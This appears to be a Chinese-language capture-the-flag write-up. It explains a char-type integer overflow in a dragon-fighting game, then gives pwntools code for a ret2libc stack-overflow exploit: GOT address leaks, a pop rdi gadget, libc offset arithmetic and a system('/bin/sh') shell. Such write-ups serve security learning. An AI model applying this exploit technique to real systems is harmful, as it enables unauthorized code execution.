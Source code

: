 乍一看龙怎么都死不了，但是我们不妨先尝试一下，我们连按两下2，我们生命值每回合可以加$100-30=70$，理论上连续选择两次2之后我们生命值应该是190，但是游戏失败，一看输出hp=-66，仔细看看这些变量的类型：
```C
  int choice; // eax
  int v2; // [rsp+4h] [rbp-Ch]
  char v3; // [rsp+Ah] [rbp-6h]
  char v4; // [rsp+Bh] [rbp-5h]
  char v5; // [rsp+Ch] [rbp-4h]
  char v6; // [rsp+Dh] [rbp-3h]
  char v7; // [rsp+Eh] [rbp-2h]
  char v8; // [rsp+Fh] [rbp-1h]
```

原来hp与mp都是char类型，可以表示$-127$到$127$之间的数，如果正数超过127就会溢出成负数，现在我们明白打龙的要点了，保持自己hp不归零的情况下，让龙一直加血直到变成负数再加血到0。但是我们发现龙每回合加血没办法刚好到0，我们可以通过选择1让两个回合龙只加3滴血，从而龙可以刚好到0。因此baby dragon的打龙策略是:
```py
game=[b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'2',b'1',b'1',b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'2',b'3',b'3',b'2',b'3',b'3',b'3',b'2',b'3',b'3',b'2',b'3',b'3',b'2',b'3']  #babydragon攻略
```

2. 通过栈溢出与got表泄露函数地址
win函数中fgets可以接收256个字节，存在明显的栈溢出漏洞，padding大小可以查看栈空间，为120个字节。
在ida中除了代码段之外，我们还可以看到plt段，got段，在程序调用库函数的时候，会先跳转到plt段，plt中存储着got表的地址，plt跳转到got段之后，如果是第一次调用，got又会跳转回plt解析库函数真实地址并将地址存入got段中，之后再调用即可以直接在got段中跳转执行。
系统已经调用过`puts`函数，那么还可以泄露哪个库函数呢？我们发现有个`os_start_`函数，可以输入114514让它调用一次`system`函数，这样我们got表中就有两个libc函数的真实地址了，可以利用`puts`函数泄露，值得一提的是在64位程序中前6个参数使用寄存器传参，第一个是rdi寄存器，所以我们需要先利用ROPgadget工具找到形如如下指令：`pop rdi;retn`用来构造调用`puts`函数。
```python
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
system_got=elf.got['system']
rdi_addr=0x4018c3
win_addr=0x401291
io.sendline(b"a"*120+p64(rdi_addr)+p64(0x404018)+p64(puts_plt)+p64(win_addr))
puts_real_addr=u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_real_addr))
io.sendline(b"a"*120+p64(rdi_addr)+p64(system_got)+p64(puts_plt)+p64(win_addr))
system_real_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(system_real_addr)) 
```
每次栈溢出之后返回win函数用来进行多次栈溢出。根据泄露的`puts`函数与`system`函数后三位确定libc库进而确定`/bin/sh`真实地址(libc函数偏移保持不变)。

3. 栈溢出执行system
最后一步就很简单了：
```python
puts_libc_addr=0x84420  #根据泄露的system函数与puts函数真实地址查库后确定
sh_libc_addr=0x1b45bd
system_libc_addr=0x52290
sh_real_addr=sh_libc_addr+(puts_real_addr-puts_libc_addr)
ret_addr=0x000000000040101a
io.sendline(b"a"*120+p64(rdi_addr)+p64(sh_real_addr)+p64(ret_addr)+p64(system_real_addr)) #如果是直接调用text段里面的call system，不需要p64(ret_addr)，如果是调用system函数真实地址，需要p64(ret_addr)。
io.interactive()
```
值得一提的是，如果构造调用的`system`函数来自于代码段的`call system`则不需要添加`ret_addr`，如果是直接到`system`函数真实地址调用则需要。`ret_addr`也可以通过ROPgadget工具找到。
